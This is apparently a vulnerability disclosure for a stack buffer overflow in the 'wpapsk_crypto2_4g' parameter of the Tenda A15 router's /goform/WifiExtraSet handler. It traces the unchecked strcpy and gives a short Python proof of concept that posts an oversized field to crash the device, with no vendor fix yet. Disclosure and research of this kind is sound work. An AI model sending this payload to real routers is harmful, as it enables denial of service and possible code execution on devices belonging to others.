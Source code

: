 ## Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "wpapsk_crypto2_4g" parameter at /goform/WifiExtraSet.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In the fromSetWirelessRepeat function, get the wpapsk_crypto2_4g parameter via websGetVar and pass it to the fifth parameter of set_repeat24

![1703732437002](image/WifExtraSet.zh-cn/1703732437002.png)

In the set_repeat24 function, the wpapsk_crypto variable is used in the strcpy function without any length checksum, which could lead to an attacker exploiting this buffer overflow to perform DOS attacks and RCE attacks.

![1703732509167](image/WifExtraSet.zh-cn/1703732509167.png)

## POC

```python
import requests

ip = '192.168.159.128'
url = f'http://{ip}/goform/WifiExtraSet'

payload = {
  
    'configured5g': 'true',
    'originSsid2_4g': '1234',
    'encode2_4g': '1234',
    'security2_4g': 'wpapsk',
    'wpapsk_type2_4g': 'wpa2',
    'wpapsk_crypto2_4g': 'a' * 0x100,
    'wpapsk_key2_4g': '1234567890'
}

res = requests.post(url=url, data=payload)

print(res)
```

## Trigger details

See video content

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html
